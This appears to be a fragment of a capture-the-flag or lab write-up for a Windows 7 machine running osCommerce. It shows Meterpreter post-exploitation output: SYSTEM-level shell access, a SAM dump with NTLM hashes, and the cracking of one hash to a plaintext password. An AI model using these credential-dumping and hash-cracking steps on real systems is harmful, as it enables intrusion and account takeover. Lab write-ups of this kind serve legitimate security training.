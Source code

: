 

meterpreter > sysinfo
Computer        : BLUEPRINT
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > shell
Process 3196 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>whoami
whoami
nt authority\system


Flags:

meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450


meterpreter >

Go to crackstation and crack the hash.
NTLM
30e87bf999828446a1c1209ddde4c450 - googleplus

1) "Lab" user NTML hash decrypted
-> googleplus


C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 14AF-C52C

